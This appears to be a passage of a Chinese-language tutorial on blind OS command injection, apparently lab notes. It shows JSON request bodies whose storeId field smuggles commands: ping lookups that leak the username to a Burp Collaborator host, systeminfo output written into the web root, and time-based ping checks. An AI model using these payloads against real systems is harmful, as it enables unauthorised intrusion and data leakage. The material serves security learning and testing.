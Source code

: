 
```json
{
"productId":"22",
"storeId":"3&ping -n 1 %USERNAME%.6cjo9fo3iffy96gtta0h3lwjoau0ip.burpcollaborator.net"
}
```
![image.png](./OS 注入.assets/2023_05_19_10_40_02_LhBoJZxD.png)



#### Linux
```json
{
	"productId":"22",
  "storeId":"3;ping -c 1 `whoami`.6cjo9fo3iffy96gtta0h3lwjoau0ip.burpcollaborator.net"
}
```
![image.png](./OS 注入.assets/2023_05_19_10_40_02_f6qHSPZM.png)

![image.png](./OS 注入.assets/2023_05_19_10_40_02_wxFU79ub.png)

![image.png](./OS 注入.assets/2023_05_19_10_40_03_InKWrhc4.png)



### 文件重定向
由于是无回显的命令注入，那么需要找到web的路径，然后将命令写到web绝对路径中查看，示例代码的web解析路径在public/html目录下，那么需要将文件写入到${web}/public/html下，访问${url}/public/xxx即可
#### windows
```json
// 请根据实际需要修改web路径
{
"productId":"22",
"storeId":"3&systeminfo > ./public/html/1.txt"
}
```
![image.png](./OS 注入.assets/2023_05_19_10_40_03_rS2Ex9VT.png)

![image.png](./OS 注入.assets/2023_05_19_10_40_03_gztGjiCl.png)



#### Linux
![image.png](./OS 注入.assets/2023_05_19_10_40_04_lA3ywOcn.png)

![image.png](./OS 注入.assets/2023_05_19_10_40_04_0M6hOkKg.png)



## 命令执行小tips
一般检测方式是使用基于时间，DNSLOG检测，这两种情况都需要
### 基于时间
基于时间的检测方式大多使用`ping`命令，也有如`nc`，`curl`，`telnet`，但是这些命令有的服务器是不存在的，所以这里使用ping命令，来对比传输多个包与一个包的时间差异来判断是否存在命令注入
```shell
# windows 下
ping -n 12 127.0.0.1
ping -n 1 127.0.0.1
# Linux 下
ping -c 12 127.0.0.1
ping -c 1 127.0.0.1
```
### DNSLOG